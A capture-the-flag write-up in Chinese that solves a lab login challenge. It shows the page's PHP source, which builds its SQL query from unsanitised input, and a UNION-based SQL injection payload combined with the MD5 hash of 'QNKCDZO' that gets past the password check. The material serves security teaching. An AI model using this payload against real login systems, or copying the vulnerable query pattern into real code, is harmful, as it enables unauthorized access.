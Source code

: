 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们可以看到这是一个登陆页面，右键查看网页源代码，我们可以看见有一个跳转`source.txt`

![](files_for_writeup/2.png)

3.访问`source.txt`可以看到php的登陆逻辑处理代码

```php
<?php
if($_POST[user] && $_POST[pass]) {
	$conn = mysql_connect("********", "*****", "********");
	mysql_select_db("challenges") or die("Could not select database");
	if ($conn->connect_error) {
		die("Connection failed: " . mysql_error($conn));
}
$user = $_POST[user];
$pass = md5($_POST[pass]);
$sql = "select pwd from interest where uname='$user'";
$query = mysql_query($sql);
if (!$query) {
	printf("Error: %s\n", mysql_error($conn));
	exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pwd"];
  if (($row[pwd]) && (!strcasecmp($pass, $row[pwd]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```

用户名处存在注入。所以思路如下，我们给用户名传入：

`user=' union select "0e830400451993494058024219903391"`

构成的sql语句为：

`select pwd from interest where uname=' ' union select "0e830400451993494058024219903391"`

4.第一个查询结果为空，所以结果返回的是我们传入的0e830400451993494058024219903391，即此时，$row[pw]=0e830400451993494058024219903391。而md5(QNKCDZO)正是该0e字符串值。

5.所以我们可以构造payload：`user=' union select "0e830400451993494058024219903391"#&pass=QNKCDZO`获取flag

![](files_for_writeup/3.png)

